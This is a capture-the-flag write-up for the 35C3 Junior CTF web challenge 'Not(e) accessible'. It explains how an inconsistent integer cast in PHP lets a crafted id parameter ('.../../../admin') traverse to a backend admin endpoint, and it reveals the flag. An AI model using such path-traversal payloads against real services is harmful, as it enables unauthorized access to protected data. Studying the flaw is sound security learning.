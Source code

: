 # 35C3 Junior CTF – Not(e) accessible

* **Category:** Web
* **Points:** variable

## Challenge

> We love notes. They make our lifes more structured and easier to manage! In 2018 everything has to be digital, and that's why we built our very own note-taking system using micro services: Not(e) accessible! For security reasons, we generate a random note ID and password for each note.
>
> Recently, we received a report through our responsible disclosure program which claimed that our access control is bypassable...
>
> http://35.207.120.163
>
> Difficulty estimate: Easy-Medium

## Solution

If you try to submit a note (with spaces) an error will appear.

> ERROR! - Text does not match /^[a-zA-Z]+$/

If the text follows the shown regex, the note is inserted showing some info.

> Your note ID is 5779715767432985082
> Your note PW is 44a0cbcab0cdb0326be3b76b21bb25c9
>
> And the link to the note:
> http://35.207.120.163/view.php?id=5779715767432985082&pw=44a0cbcab0cdb0326be3b76b21bb25c9

Analyzing the HTML, you can find the following comment.

```HTML
<!-- My source is at /src.tgz -->
```

The archive contains both the frontend and the backend code.

Into the backend file `app.rb` you can discover the backend endpoint that must be called to retrieve the flag.

```Ruby
get '/admin' do
	File.read("flag.txt")
end
```

The code that can be abused is into frontend `view.php` file.

```PHP
if(file_exists("./pws/" . (int) $id . ".pw")) {
    if(file_get_contents("./pws/" . (int) $id . ".pw") == $_GET['pw']) {
        echo file_get_contents($BACKEND . "get/" . $id);
```

The `int` cast is not present everywhere, so the `id` parameter can be crafted like the following.

```
5779715767432985082/../../admin
```

With this parameter, the first two `if` statements will be true, because the result of the expression is the following, due to the fact that PHP will consider only the integer part for the cast.

```
./pws/5779715767432985082.pw
```

That result is a valid password file, the one created previously during the note submission.

The `file_get_contents` instruction will perform a HTTP GET call to the following backend endpoint.

```
$BACKEND/get/5779715767432985082/../../admin
```

That will be interpreted like `$BACKEND/admin`

Hence, the flag will be returned.

```
35C3_M1Cr0_S3rvices_4R3_FUN!
```